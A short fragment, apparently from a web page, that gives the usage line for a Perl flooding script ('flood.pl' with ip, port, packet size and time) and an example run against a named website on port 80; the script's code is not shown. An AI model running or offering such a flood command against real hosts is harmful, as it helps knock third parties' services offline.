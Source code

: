 Using: perl flood.pl <ip> <port> <packetsize> <time>
Example: perl flood.pl itknyga.com.ua 80 15000 1000
